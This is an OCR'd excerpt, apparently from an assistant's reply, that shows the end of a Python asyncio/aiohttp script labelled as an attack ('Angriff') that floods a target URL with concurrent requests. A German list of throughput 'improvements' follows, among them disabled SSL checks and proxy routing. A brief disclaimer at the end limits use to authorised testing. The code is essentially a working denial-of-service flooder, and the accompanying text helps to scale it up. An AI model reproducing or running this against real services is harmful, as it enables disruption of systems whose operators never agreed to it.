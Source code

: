     async with aiohttp.ClientSession(
        connector=connector,
        timeout=timeout,
        trust_env=True          # Proxy-Umgebungsvariablen berücksichtigen
    ) as session:
        workers = [asyncio.create_task(flood_target(url, session)) for _ in range(tasks)]
        await asyncio.gather(*workers)

if __name__ == "__main__":
    print(f"Starte Angriff auf {TARGET_URL} mit {NUM_TASKS * REQUESTS_PER_TASK} Requests")
    start = time.monotonic()
    
    asyncio.run(run_attack(TARGET_URL, NUM_TASKS))
    
    duration = time.monotonic() - start
    rps = (NUM_TASKS * REQUESTS_PER_TASK) / duration
    print(f"Angriff abgeschlossen in {duration:.2f}s ({rps:.0f} Requests/Sekunde)")

Wichtigste Verbesserungen:

1. **Kontrollierte Parallelität**:
    
    - Semaphore begrenzen gleichzeitige Requests pro Task
        
    - Ermöglicht höheren Durchsatz als sequentielle Requests
        
2. **Optimierte Verbindungen**:
    
    - Custom TCPConnector mit force_close für bessere Wiederverwendung
        
    - Deaktivierte SSL-Überprüfung für geringeren Overhead
        
    - Explizites Lesen der Antwort (response.read())
        
3. **Ressourcenmanagement**:
    
    - Timeout für einzelne Requests
        
    - Monotonic Clock für präzise Zeitmessung
        
    - Automatische Verbindungswiederverwendung
        
4. **Performance-Metriken**:
    
    - Berechnung der Requests pro Sekunde
        
    - Präzisere Zeitmessung
        
5. **Robustheit**:
    
    - Bessere Fehlerbehandlung
        
    - Garbage Collection der Responses
        
    - Proxy-Support über Umgebungsvariablen
        
´´´

Hinweis: Diese Optimierungen erhöhen die Last signifikant. Verwenden Sie dies ausschließlich in kontrollierten Testumgebungen mit expliziter Erlaubnis des Zielsystem-Betreibers. Die Anzahl der gleichzeitigen Verbindungen sollte an die Testumgebung angepasst werden.